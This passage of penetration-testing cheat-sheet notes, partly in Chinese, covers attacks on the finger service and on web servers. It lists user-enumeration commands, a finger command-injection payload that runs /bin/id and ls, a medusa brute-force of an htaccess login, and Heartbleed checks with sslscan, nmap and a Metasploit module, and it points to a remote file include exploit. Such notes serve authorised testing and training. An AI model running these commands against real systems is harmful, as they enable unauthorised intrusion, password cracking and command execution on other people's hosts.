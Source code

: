 ```bash
# banner enum.
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79

# user enum
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user

## enum user perl scripts
## https://pentestmonkey.net/tools/user-enumeration/finger-user-enum
## seclists/Usernames/Names/names.txt
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt

# finger command execution
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## 80/443-http(s)
+ web attack
+ ssl heart bleeding exploit
+ common cms/web service

```bash
#htaccess爆破
medusa -h 192.68.3.2 -u root -P password.txt -M http  -m DIR:/test -T 10

//grab links
curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'
```

### openssl heartbleed
+ 1.0.1-1.0.1f vulnerable
+ 1.0.1g  not vulnerable
+ 1.0.0, 0.9.8 not vulnerable

```bash
#heartbleed 检测
sudo sslscan 192.168.3.2:443
nmap -sV --script=ssl-heartbleed 192.168.3.2

use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 192.168.101.8
set verbose true
run
```

### Simple PHP Photo Gallery
+ version 0.8, [remote file include](https://www.exploit-db.com/exploits/48424)
+ pg-snookums
+ 
